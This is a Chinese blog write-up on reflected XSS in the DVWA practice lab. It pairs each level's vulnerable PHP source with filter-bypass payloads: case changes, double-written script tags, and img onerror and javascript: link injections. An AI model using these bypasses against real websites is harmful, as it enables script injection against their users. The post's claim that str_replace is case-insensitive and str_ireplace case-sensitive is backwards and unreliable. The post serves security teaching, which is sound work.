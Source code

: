 ```yaml
---
layout:     post
title:      DVWA靶机学习——XSS (Reflected)
subtitle:   这个系列是学习DVWA靶机的。今天学习XSS (Reflected)，即反射型XSS的Low、Medium、High、Impossible级别。
date:       2020-11-21
author:     HouKC
header-img: img/post-bg-universe.jpg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
    - dvwa
    - 靶机
---
```




## 0x00 XSS (Reflected)

XSS，全称Cross Site Scripting，即跨站脚本攻击，是指攻击者在页面中注入恶意代码，当受害者访问该页面时，恶意代码会在其浏览器上执行。

XSS不仅限于JavaScript，还可以是Flash等脚本语言，根据恶意代码是否存储在服务器，XSS分为存储型XSS和反射型XSS。

DOM型的XSS由于比较特殊，常被分为第三种，是基于DOM树的XSS。如服务器端常使用document.body.innerHtml等函数动态生成html页面，如果这些函数在引用某些变量时没有进行过滤或检查，就会产生DOM型XSS。DOM型XSS可能是存储型，也可能是反射型。



## 0x01 Low

#### 源码分析
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?>  
```
关闭了XSS保护，没有设置任何过滤，直接将GET方式提交的变量值输出成html，构成了反射型XSS。

#### 解题思路
直接输入下述代码即可弹出弹框
```html
<script>alert(1);</script>
```


## 0x02 Medium
#### 源码分析
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?> 
```
关闭了XSS保护，并且str_replace函数会将\'\<script\>\'替换成空字符，然后才输出，但是str_replace对大小写不敏感，str_ireplace函数才对大小写敏感。

可以通过大小写绕过或双写绕过，来构成XSS。

#### 解题思路
1、大小写绕过

```html
<Script>alert(1);</scRipt>
```
大写script哪些字母都可以。

2、双写绕过

```html
<sc<script>ript>alert(1);</scr<script>ipt>
```
注意双写绕过时要将被替换的字符全部写进去，这里不只是双写script。



## 0x03 High

#### 源码分析
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?>
```
关闭了XSS保护，使用preg_replace函数作正则匹配，只要包含字符串\'\<script\>\'就算是中间有别的字符也会匹配到，并且i参数表示大小写都能匹配。

因此不能再使用大小写绕过或双写绕过了。但可以通过其他标签、属性来执行JavaScript脚本弹框，如：img标签。

#### 解题思路
利用img标签的onerror属性，onerror属性是在src属性出错时执行，所以只要让src属性是一个不存在的链接或值即可。构造XSS注入代码如下：
```html
<img src='1' onerror='alert(1)'>
```
也可以用a标签
```html
<a href='javascript:alert(1)'>click me</a>
```
但是需要点击click me链接才会生效。



## 0x04 Imposible

#### 源码分析
```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();
?> 
```
源码中使用CSRF token来防御CSRF攻击。

htmlspecialchars()函数把字符&、\"、\’、\<、\>转换为HTML实体，防止浏览器将其作为HTML元素，从而防御XSS攻击。

#### 解题思路
无。



## 0x05 小结

防御方法：
- 黑名单过滤用户输入，注意大小写都考虑进去。
- 使用htmlspecialchars()函数将特殊符号变成HTML实体。
- 使用owasp等安全XSS处理API。



## 0x06 参考

[https://www.freebuf.com/articles/web/123779.html](https://www.freebuf.com/articles/web/123779.html)